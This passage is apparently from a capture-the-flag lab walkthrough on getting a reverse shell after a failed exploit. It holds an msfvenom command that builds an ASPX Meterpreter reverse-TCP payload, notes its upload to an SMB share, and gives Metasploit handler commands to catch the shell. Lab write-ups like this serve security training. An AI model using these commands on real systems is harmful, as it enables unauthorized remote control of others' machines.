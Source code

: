 We configure the appropriate module and payload. However, the exploit **fails** due to **Inbound restrictions or mitigation in place**, meaning we cannot execute a direct shell from our attacker system.

---

### 🐚 Reverse Shell via SMB Share

We shift to a **reverse shell approach** using the accessible SMB share and HTTP server.

#### 🧪 Create ASPX Reverse Shell

We use `msfvenom` to craft a reverse shell in **ASPX format**:

**Command:**

```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.17.103.233 LPORT=8765 -f aspx -o reverse_shell.aspx
```
![alt text](Images/image-102.png)

#### 📤 Upload Reverse Shell

We upload `reverse_shell.aspx` to the `nt4wrksv` SMB share.

#### 🎯 Set Up Metasploit Handler

**Commands:**

```bash
use exploit/multi/handler
set payload windows/x64/meterpreter_reverse_tcp
set LHOST 10.17.103.233
set LPORT 8765
run
```
![alt text](Images/image-103.png)
